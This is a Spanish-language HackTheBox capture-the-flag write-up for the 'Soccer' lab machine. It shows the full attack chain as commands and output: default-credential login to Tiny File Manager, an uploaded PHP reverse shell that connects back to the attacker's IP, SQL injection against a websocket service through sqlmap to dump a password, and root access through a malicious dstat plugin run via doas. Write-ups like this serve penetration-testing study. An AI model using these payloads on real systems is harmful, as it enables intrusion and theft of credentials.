







Resolución de la máquina Soccer de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.194
Nmap scan report for 10.10.11.194
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
9091/tcp open xmltec-xmlmail
Mirando la cabecera Location al hacer una petición curl podemos ver el dominio
❯ curl -s 10.10.11.194 -I | grep Location
Location: http://soccer.htb/
Buscando directorios con gobuster encontramos la ruta /tiny
❯ gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Url: http://soccer.htb
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/tiny (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Mirandolo desde el navegador parece un login de Tiny File Manager

Buscando credenciales por defecto encontramos las credenciales admin:admin@123

Podemos usar las credenciales de admin en el login y entrar

Al entrar podemos ver los archivos de la web y del directorio tiny

Entramos a tiny y encontramos otro directorio llamado uploads

El directorio esta vacio pero podemos ver un botón de upload

Ahora subimos un shell.php con la estructura de una reverse shell
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'")
?>

Invocamos nuestro shell.php y recibimos la reverse shell como www-data
❯ curl soccer.htb/tiny/uploads/shell.php
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.194
www-data@soccer:~/html/tiny/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@soccer:~/html/tiny/uploads$ ifconfig | grep "inet "
inet 10.10.11.194 netmask 255.255.0.0 broadcast 10.129.255.255
inet 127.0.0.1 netmask 255.0.0.0
www-data@soccer:~/html/tiny/uploads$
Habiamos visto el puerto 9091, es un web socket podemos comprobarlo con websocat
❯ websocat ws://soccer.htb:9091 -v
[INFO websocat::lints] Auto-inserting the line mode
[INFO websocat::stdio_threaded_peer] get_stdio_peer (threaded)
[INFO websocat::ws_client_peer] get_ws_client_peer
[INFO websocat::ws_client_peer] Connected to ws
Buscando vulnerabilidades podemos dar con el siguiente articulo que nos muestra como hacer una sql injection al web socket redirigiendo con un script la petición http al ws
Usaremos el script pero es necesario cambiar las siguientes 2 lineas
ws_server = "ws://localhost:8156/ws"
ws_server = "ws://soccer.htb:9091/"
data = '{"employeeID":"%s"}' % message
data = '{"id":"%s"}' % message
Ahora ejecutamos el exploit para empezar a redirigir las peticiónes
❯ python3 exploit.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
Con sqlmap apuntaremos a nuestro localhost, iniciamos enumerando bases de datos
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -dbs
<......................>
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
Podemos ver la base de datos soccer_db, ahora enumeramos las tablas
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -tables
<......................>
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
Solo hay una tabla, asi que enumeramos las columnas de la tabla accounts
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -columns
<.........................>
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column | Type |
+----------+-------------+
| email | varchar(40) |
| id | int |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
Nos centraremos solo en los campos username y password, asi que los dumpeamos
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump
<..................................>
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password |
+----------+----------------------+
| player | PlayerOftheMatch2022 |
+----------+----------------------+
Tenemos las credenciales del usuario player, asi que nos conectamos por ssh
❯ ssh player@10.10.11.194
player@10.10.11.194's password: PlayerOftheMatch2022
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
player@soccer:~$ cat user.txt
d85**************************e59
player@soccer:~$
Buscando binarios suid nos topamos con doas al inicio
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
player@soccer:~$
En la ruta /usr/local ademas de /bin con doas suid podemos ver /etc con un doas.conf
player@soccer:/usr/local/etc$ cat doas.conf
permit nopass player as root cmd /usr/bin/dstat
player@soccer:/usr/local/etc$
Nos dice que podemos ejecutar dstat como root sin proporcionar contraseña
player@soccer:~$ doas -u root /usr/bin/dstat
You did not select any stats, using -cdngy by default.
--total-cpu-usage-- -dsk/total- -net/total- ---paging-- ---system--
usr sys idl wai stl| read writ| recv send| in out | int csw
1 0 99 0 0| 30k 14k| 0 0 | 0 0 | 243 475
Tenemos capacidad de escritura en la ruta share/dstat, donde se guardan los plugins
player@soccer:~$ ls -la /usr/local/share/dstat
drwxrwx--- 2 root player 4096 Dec 12 14:53 .
drwxr-xr-x 6 root root 4096 Nov 17 09:16 ..
player@soccer:~$
Simplemente creamos un archivo en python que vuelva la bash suid y lo ejecutamos como plugin
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
player@soccer:/usr/local/share/dstat$
Al mirar los privilegios de la bash podemos verla suid, la ejecutamos con -p y somos root
player@soccer:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash
player@soccer:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
694**************************8b4
bash-5.0#